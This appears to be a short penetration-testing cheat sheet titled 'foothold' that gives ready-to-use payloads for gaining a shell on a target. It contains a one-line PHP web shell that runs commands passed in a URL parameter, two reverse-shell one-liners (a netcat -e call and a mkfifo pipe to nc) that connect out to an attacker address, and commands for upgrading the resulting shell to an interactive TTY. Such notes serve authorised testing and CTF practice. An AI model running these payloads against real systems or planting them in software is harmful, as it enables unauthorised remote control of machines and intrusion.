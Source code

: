 # foothold

## Web shells

- A simple PHP web shell.

```shell
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

- The well known pentestmonkey php reverse shell [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

- A list of reverse shell payloads [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
Common payloads include

```
nc ip 1234 -e /bin/bash
```
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ip 1234 >/tmp/f
```

## Stabilisation

- Stabilize your shell using

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
or just
```shell
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
if `python3` is not available.

- Set up autocomplete. Background the shell using `CTRL + Z` and run 

```shell
stty raw -echo; fg
```
to foreground the shell using tab completion.

